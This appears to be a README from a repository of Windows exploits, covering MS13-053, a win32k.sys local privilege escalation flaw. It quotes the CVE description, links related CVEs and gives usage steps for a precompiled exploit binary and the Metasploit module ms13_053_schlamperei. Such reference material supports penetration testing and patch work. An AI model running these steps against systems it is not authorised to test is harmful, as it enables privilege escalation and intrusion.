

# MS13-053
```
win32k.sys in the kernel-mode drivers in Microsoft Windows XP SP2 and SP3, 
Windows Server 2003 SP2, Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, and Windows 7 SP1 does not properly handle objects in memory, 
which allows local users to gain privileges via a crafted application, aka "Win32k Information Disclosure Vulnerability."
```

Vulnerability reference:
 * [MS13-053](https://technet.microsoft.com/library/security/ms13-053)  
 * [CVE-2013-1300](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1300)
 * [CVE-2013-1340](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1340)
 * [CVE-2013-1345](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1345)
 * [CVE-2013-3129](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3129)
 * [CVE-2013-3167](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3167)
 * [CVE-2013-3172](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3172)
 * [CVE-2013-3173](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3173)
 * [CVE-2013-3660](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3660)  

## Usage
```
c:\> MS13-053.exe
```
  

## load the module within the Metasploit
[msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms13_053_schlamperei)
```
msf > use exploit/windows/local/ms13_053_schlamperei
msf exploit(ms13_053_schlamperei) > show targets
    ...targets...
msf exploit(ms13_053_schlamperei) > set TARGET <target-id>
msf exploit(ms13_053_schlamperei) > show options
    ...show and set options...
msf exploit(ms13_053_schlamperei) > exploit
```

## References
* [Adobe, Microsoft Release Critical Updates](https://krebsonsecurity.com/tag/ms13-053/)  
* [ms13_053_schlamperei.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_053_schlamperei.rb)  
